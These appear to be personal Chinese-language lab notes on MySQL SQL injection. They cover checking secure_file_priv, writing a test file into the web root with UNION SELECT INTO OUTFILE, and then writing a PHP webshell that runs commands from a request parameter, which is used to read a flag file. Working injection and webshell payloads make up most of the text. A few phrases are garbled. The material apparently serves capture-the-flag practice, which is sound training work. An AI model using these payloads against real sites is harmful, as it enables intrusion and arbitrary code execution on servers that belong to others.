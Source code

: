 目的：是为了查找这个数据库中包含secure_file_priv这个值是否是空的还是null 
找到这个的目的是为了通过数据库能向后端发送文件 并且 上传任意恶意的代码并执行
判断是否可以读写到任意的位置  上传文件 

![[Pasted image 20240129203531.png]]
发现这个值是空的 也就是说 允许开放文件上传的写入/读取功能 条件2已具备 
现在进行下一步：

语法  ：select 'xxx' into outfile '存放的文件的路径';
提示：高级文件导出利用“FROM_BASE64("base64_data")”函数，以便能够写入长/高级文件，包括二进制数据。  有待考证 

如果想 在sql基础上编写webshell来进行注入的话 必须知道 web服务器的基本web目录 既web的根目录在哪里  
找到一种方式是用load_file()函数读取对应的.conf的服务器函数的配置   或者是其他环节 

目的 尝试将file written successlly ！ 写入 到/var/www/html/proof.txt直接拍每个 病默契

payload如下：cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'
![[Pasted image 20240129205751.png]]
注入成功！
编写phpwebshell 

编写如下webshell  来达到 让其后端服务器可以执行任意代码的目的
cn' union select "" , '<?php system($_REQUEST[0]); ?>'，“”，“” into outfile '/var/www/html/shell.php '-- -

<?php system("cat /var/www/flag.txt");  ?>
其中 在 system 的"内可以放置任意长度的命令 哈哈哈哈"


其中  进行技能考核“
